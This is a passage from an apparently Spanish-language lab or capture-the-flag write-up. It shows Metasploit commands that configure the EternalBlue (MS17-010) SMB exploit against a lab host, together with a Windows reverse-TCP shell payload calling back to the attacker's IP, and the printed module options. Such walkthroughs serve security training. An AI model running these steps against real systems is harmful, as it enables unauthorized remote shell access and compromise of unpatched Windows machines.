 Encontrado el exploit en cuestión, seleccionaremos el modulo a usar y pondremos la IP de RHOSTS y LHOST, siendo RHOSTS la IP a la cual atacaremos y LHOST la IP de nuestra maquina.

```bash
msf6 > use 0
[*] Using configured payload windows/x64/shell/reverse_tcp
```

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.53.172
RHOSTS => **10.10.53.172**
```

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.18.27.194
LHOST => **10.18.27.194**
```

Con el comando siguiente veremos la configuración del exploit.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         **10.10.53.172**     yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                             k/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects
                                              Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targe
                                             t machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Serve
                                             r 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.

Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     **10.18.27.194**     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```
